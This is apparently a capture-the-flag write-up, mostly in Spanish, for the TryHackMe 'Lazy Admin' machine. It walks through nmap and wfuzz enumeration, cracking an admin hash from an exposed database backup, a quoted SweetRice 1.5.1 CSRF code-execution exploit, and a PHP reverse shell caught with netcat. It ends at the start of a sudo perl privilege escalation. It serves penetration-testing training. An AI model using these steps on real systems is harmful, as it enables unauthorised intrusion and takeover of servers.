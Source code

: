 # Lazy Admin WriteUp
### Español & English



## Enumeración

#### :ship: Nmap - Enumeración de puertos
Para la enumeración de puertos de la máquina utilizaremos nmap, una herramienta que nos permite scanear los puertos abiertos y los servicios que corren en una dirección IP. Comenzaremos con enumerar los primeros 1000 puertos con el siguiente comando:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -n -T4 -p 1-1000 10.10.109.87 -oN portenum

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:21 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con `-n` especificamos que no se realice nunca la resolución de DNS lo que agiliza el proceso de escaneo, con `-T4` especificamos el nivel de agresividad y evitamos que el tiempo de expiración de los sondeos en los puertos TCP no excedan de 10ms. Por útltimo guardamos los resultados en el archivo `portenum` en formato nmap con el argumento `-oN`.


Ahora procedemos con la enumeración de los servicios y sus versiones de cada uno de los puertos abiertos que previamente habiamos encontrado:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -sC -sV -p22,80 10.10.109.87 -oN portdetails

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:38 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

#### :page_with_curl: Wfuzz - Enumeración de directorios

Como podemos observar existe un servicio http por el puerto 80 al que podemos acceder con la URL `http://10.10.109.87:80`en nuestro navegador:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/index.png)

Accedemos a la página de defecto del servidor Apache2.

En este punto comencé a buscar archivos `robots.txt`, `login.php`o directorios como `/uploads` que son bastante counes en los CTFs, pero no obtuve resultados.

Para la enumeración de directorios utilizaremos wfuzz como herramienta de fuzzeo. Las wordlists que empleé fueron dos, con la primera (`/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`) no obtuve resultados ya sin especificar extensión o con las extensiones `php`y `html`. Con la segunda wordlist (`/usr/share/wfuzz/wordlist/general/common.txt`) si que salieron resultados:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.109.87/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000204:   301        9 L      28 W     314 Ch      "content"                                                                                                                                                                 

Total time: 15.05663
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 63.02869
```

Si fuzzeamos de nuevo este directorio podemos acceder a otros archivos ocultos:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.98.202/content/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/content/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000412:   301        9 L      28 W     321 Ch      "images"                                                                                                                                                                  
000000416:   301        9 L      28 W     318 Ch      "inc"                                                                                                                                                                     
000000454:   301        9 L      28 W     317 Ch      "js"                                                                                                                                                                      

Total time: 21.64260
Processed Requests: 949
Filtered Requests: 946
Requests/sec.: 43.84869
```


Primero revisamos la URL `http://10.10.109.87/content`, donde podemos deducir que se utiliza el gestor de contenido SweetRice:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/sweetrice.png)

Al inspeccionar la página podemos encontrar un link de un archivo escrito en JavaScript (`.js`) debajo del tag de <title>.
Si nos fijamos en la ubicación del archivo podemos encontrarnos con el directorio que previamente habiamos fuzzeado.
  
Revisando el archivo `SweetRice.js` se ve una versión desde el que se utiliza el script (`0.5.4`). Con la idea de encontrar credenciales, con el atajo `Ctrl+F`filtramos la palabra `pass` con la que se obtienen dos resultados, sin embargo no hay ninguna contraseña o usuario.

Si revisas cuidadosamente los demás scripts alojados en `http://10.10.109.87/content/js`puedes sacar también el directorio de `/images`.
Mirando los archivos en `/images`no encontramos nada que nos revele datos que puedan vulnerar la máquina.

Por último, nos faltaría revisar el directorio `/inc` en el que encontremos diferentes carpetas y archivos en formato `.php`:


![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/inc.png)

Si accedemos al archivo de texto con nombre `lastest.txt`podemos listar una versión, que como dice el nombre sería la más reciente de uno de los servicios que corre la página web. El servicio que habíamos encontrado previamente es el CMS SweetRice. Lo cual nos servirá mas adelante para buscar exploits relacionados con esta versión (`1.5.1`).

También podemos encontrar una carpeta con nombre `mysql_backup`, dentro de esa carpeta podemos descargar la copia de seguridad de una base de datos:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/mysql.png)

Con el comando `strings`listamos todos los caracteres imprimibles del archivo:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ strings mysql_bakup_20191129023059-1.5.1.sql 
```

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/creds.png) 

Si buscamos entre los resultados podemos encontrar una línea con el nombre de usuario de la cuenta admin (`manager`) y un hash md5 de la contraseña (`42f749ade7f9e195bf475f37a44cafcb`). El hash lo podemos decodificar [aquí](https://crackstation.net/).

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/hash.png)

## Exploitation

#### :collision:Método - 1


Como ya obtuvimos qué versión de SweetRice se está empleando podemos comprobar si ésta es vulnerable. Una simple búsqueda en Google nos dará varios resultados:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/google.png)

En este método nos centraremos en el tercer enlace, el cual nos detalla el procedimiento a seguir para obtener un Code Execution:

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
</textarea>
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

Tal y como lo describe necesitamos tener acceso a una cuenta admin del CMS para luego acceder al panel de ads. Una vez ahí subir el codigo que nos dará una reverse shell sustituyendo `<?php echo '<h1> Hacked </h1>'; phpinfo();?>`por nuestro código. En mi caso utilicé `/usr/share/webshells/php/php-reverse-shell.php` cambiando los parámetros de la IP con mi dirección y el puerto por el 1234.


![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/exploit1.png)


Una vez hayamos subido el archivo ponemos en escucha el puerto `1234` con netcat:



```console
kimera@vault:~/Machines/THM/LazyAdmin/exploit$ nc -nlvp 1234
listening on [any] 1234 ...
```

Y entramos en la URL donde se aloja el archivo que recién subimos: `http://10.10.109.87/content/inc/ads/reverse.php`. Con esto deberíamos haber obtenido una shell.

#### :collision:Método - 2

Para este segundo método utilizaremos el primer enlace de la búsqueda que hicimos previamente. Este nos proprciona un exploit escrito en Python, el cual, cuando lo ejectutemos con el comando `python nombreexploit.py`, nos pedirá el host que en nuestro caso es `10.10.109.87/content`que nos lo pedirá entre comillas, así como el resto de parámetros necesarios: usuario, contraseña, nombre del archivo que queramos subir. En mi caso utilizaré de nuevo una reverse shell en php.

Ponemos en escucha el puerto con el que configuramos la reverse shell y visitamos la URL que nos proporciona el output del exploit.

#### Primera Flag

Con el comando `id`podemos ver que somos el usuario `www-data`. Para la escalación de privilegios procedemos con alguna enumeracón básica de linux. Con el comando `sudo -l`podemos ver que comandos podemos correr con permisos de root.

Nos dirigimos al directorio home para ver a que carpeta de directorios de usuario tenemos acceso y vemos que la de itguy es accesible. Dentro de este usuario encontramos la primera flag:

#### Escalación de privilegios

```console
$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Como podemos ver, el usuario www-data puede ejecutar un archivo escrito en perl. Este archivo lo podemos modificar para obtener una nueva reverse shell pero esta vez con permisos de root. Para previsualizar el contenido de este archivo podemos hacer un cat:

```console
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

sudo /usr/bin/perl /home/itguy/backup.pl



